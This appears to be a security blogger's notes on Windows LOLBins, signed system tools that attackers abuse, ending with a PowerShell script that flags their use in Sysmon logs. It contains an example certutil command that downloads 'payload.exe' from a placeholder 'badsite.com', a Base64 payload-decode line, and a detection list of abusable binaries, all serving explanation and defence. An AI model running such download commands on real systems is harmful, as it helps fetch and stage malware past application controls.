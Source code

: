 ```yaml
---
title: Win - LOLBins
date: 2020-09-18 11:11:11 -0400
categories: [30Win]
tags: []
math: true
image:
---
```


[toc]

---

# LOLBins - Living Off The Land Binaries

All operating systems provide a rich toolbox to achieve multiple day-to-day tasks
- like maintenance of the certificates, installation of patches and applications, management of files, and many more.
- Those tools are installed by default and available to all users without specific access rights (most of the time).
- as they are signed by the operating system, they are considered safe by default.


The problem is the following: These tools are very powerful and provide interesting features for attackers. They are used for malicious purposes. Why reinvent the wheel if an attacker has access to a tool to achieve a specific task? Let's have a look at some tools available in every Microsoft Windows operating system. If you're using AppLocker, they are chances that you're allowing Microsoft signed binaries in your policy.


## exe


Let's review some example:

`certutil.exe`
- a tool used to work with certificates

```bash
# but it can also be used as a command-line browser to download some content from an URL:
C:\Temp> certutil.exe -urlcache -split -f "https://badsite.com/payload.exe" iambad.exe

# It can also be used to quickly decode a Base64-encoded payload:
C:\Temp> certutil -decode payload.txt payload.exe
```


I also mentioned several times in other diaries other looks like `msbuild.exe, csc.exe, or jsc.exe` that are provided by the `.NET Framework`. They are useful to compile code on the fly or to spawn other processes.


`ping.exe`
- can be used in alternative ways.

```bash
# By example to implement a pause in a script:
C:\Temp> ping -n 5 127.0.0.1
# Ping will send 5 ICMP request packets to the loopback interface, one per second. So, we introduce a pause of 5 seconds.
```



They are plenty of tools that could be potentially dangerous if invoked from an abnormal process (like word.exe or powershell.exe) or by a regular user.

A nice list has been compiled and made available online: [The LOLBAS project](https://lolbas-project.github.io/)

---


### mshta.exe

mshta.exe `Microsoft HTML Application Host`
- mshta.exe is a part of Microsoft Windows Operating System which is needed to `execute .HTA files`.
- This program is a non-essential system process, but should not be terminated unless suspected to be causing problems.
- mshta.exe 是存放在目录 C:\Windows\System32。
- 已知的 Windows XP 文件大小为 45,568 字节 (占总出现比率 66% )，29,184 字节。
- 应用程序没有可视窗口。 总结在技术上威胁的危险度是 8% , 但是也可以参考 用户意见。


---


### netsh.exe
- 是一个管理员可以用来在命令提示符处配置并监视基于 Windows 的计算机的工具。
- 使用 `Netsh.exe` 工具，可以将输入的上下文命令定向到适当的帮助器，然后帮助器将执行命令。
- 帮助器是个动态链接库 `(.dll)` 文件，它通过提供配置、监视和支持一种或多种服务、实用工具或协议，来扩展 `Netsh.exe` 工具的功能。




---


## solution

track the usage of those tools via Sysmon and Powershell.

example

```bash
# quick script to extract interesting Sysmon events:

$lolbins = @("Atbroker.exe","Bash.exe","Bitsadmin.exe","Certutil.exe","Cmdkey.exe","Cmstp.exe","Control.exe","Csc.exe","Dfsvc.exe","Diskshadow.exe","Dnscmd.exe","Esentutl.exe","Eventvwr.exe","Expand.exe","Extexport.exe","Extrac32.exe","Findstr.exe","Forfiles.exe","Ftp.exe","Gpscript.exe","Hh.exe","Ie4uinit.exe","Ieexec.exe","Infdefaultinstall.exe","Installutil.exe","Makecab.exe","Mavinject.exe","Microsoft.Workflow.Compiler.exe","Mmc.exe","Msbuild.exe","Msconfig.exe","Msdt.exe","Mshta.exe","Msiexec.exe","Odbcconf.exe","Pcalua.exe","Pcwrun.exe","Presentationhost.exe","Print.exe","Reg.exe","Regasm.exe","Regedit.exe","Register-cimprovider.exe","Regsvcs.exe","Regsvr32.exe","Replace.exe","Rpcping.exe","Rundll32.exe","Runonce.exe","Runscripthelper.exe","Sc.exe","Schtasks.exe","Scriptrunner.exe","SyncAppvPublishingServer.exe","Verclsid.exe","Wab.exe","Wmic.exe","Wscript.exe","Xwizard.exe","Appvlp.exe","Bginfo.exe","Cdb.exe","csi.exe","dnx.exe","Dxcap.exe","Mftrace.exe","Msdeploy.exe","msxsl.exe","rcsi.exe","Sqldumper.exe","Sqlps.exe","SQLToolsPS.exe","te.exe","Tracker.exe","vsjitdebugger.exe")

Foreach($lolbin in $lolbins)
{
    Get-WinEvent -FilterHashtable @{logname="Microsoft-Windows-Sysmon/Operational";id=1;} | ?{ $_.message -match "`r`nImage: .*$lolbin`r`n" } | %{
        [regex]$regex = "(?i)`r`n(?<image>Image: .*$lolbin)`r`n(?<args>CommandLine: .*)`r`n"
        $match = $regex.Match($_.message)

        $Out = New-Object PSObject
        $Out | Add-Member Noteproperty 'Binary' $lolbin
        $Out | Add-Member Noteproperty 'Image' $match.Groups["image"].value
        $Out | Add-Member Noteproperty 'Args' $match.Groups["args"].value
        $Out | fl
    }
}
```


---



ref:
- [1] https://isc.sans.edu/forums/diary/Malware+Samples+Compiling+Their+Next+Stage+on+Premise/25278
- [2] https://lolbas-project.github.io
- [3] https://gist.github.com/leoloobeek/a3a4d9af3bf7fb37b6d82a7a17e7176d
- [4] https://raw.githubusercontent.com/ion-storm/sysmon-config/master/sysmonconfig-export.xml






.
